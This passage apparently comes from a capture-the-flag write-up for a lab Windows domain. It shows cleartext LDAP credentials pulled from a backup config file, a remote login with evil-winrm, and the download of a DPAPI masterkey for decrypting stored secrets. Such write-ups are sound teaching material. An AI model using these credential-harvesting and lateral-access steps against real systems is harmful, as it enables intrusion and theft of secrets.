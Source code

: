 <p class="indent-paragraph">
After transferring and extracting the archive locally, we uncovered a configuration file:<code>nms-auth-config.xml.bak</code><span class="codefix">.</span> This file contained hardcoded LDAP credentials for the account<code>steph.cooper</code><span class="codefix">,</span> with the cleartext password<code>ChefSteph2025!</code><span class="codefix">.</span> These credentials, stored within the<code>bind-dn</code> and<code>bind-password</code> fields, suggest privileged access to the domain controller's LDAP service, offering a potential path toward privilege escalation.
</p>

```
~$ unzip site-backup-2024-12-30.zip -d extracted_backup
                            
total 20
drwxrwxr-x 6 kali kali 4096 Dec 31  1979 assets
drwxrwxr-x 2 kali kali 4096 Dec 31  1979 images
-rw-rw-r-- 1 kali kali 7258 Dec 31  1979 index.html
-rw-r--r-- 1 kali kali  864 Dec 31  1979 nms-auth-config.xml.bak
                                                                                      
~$ cat nms-auth-config.xml.bak

<?xml version="1.0" encoding="UTF-8"?>
<ldap-config>
    <server>
        <host>DC.PUPPY.HTB</host>
        <port>389</port>
        <base-dn>dc=PUPPY,dc=HTB</base-dn>
        <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
        <bind-password>ChefSteph2025!</bind-password>
    </server>
    <user-attributes>
        <attribute name="username" ldap-attribute="uid" />
        <attribute name="firstName" ldap-attribute="givenName" />
        <attribute name="lastName" ldap-attribute="sn" />
        <attribute name="email" ldap-attribute="mail" />
    </user-attributes>
    <group-attributes>
        <attribute name="groupName" ldap-attribute="cn" />
        <attribute name="groupMember" ldap-attribute="member" />
    </group-attributes>
    <search-filter>
        <filter>(&(objectClass=person)(uid=%s))</filter>
    </search-filter>
</ldap-config>
```

### 📂 Extracting Credentials via DPAPI

<p class="indent-paragraph">
Using the credentials extracted from the backup, we authenticated to the domain controller via<code>evil-winrm</code> as<code>steph.cooper</code><span class="codefix">.</span> Upon accessing the user's<code>Documents</code> folder, we identified a file named<code>masterkey</code><span class="codefix">.</span> This file is likely related to the Data Protection API (DPAPI) and may contain encrypted keys used to protect other credentials stored on the system. Recognizing its forensic value, we promptly downloaded it for local analysis. Such artifacts are pivotal in later stages when attempting to decrypt password blobs or secure system data.
</p>
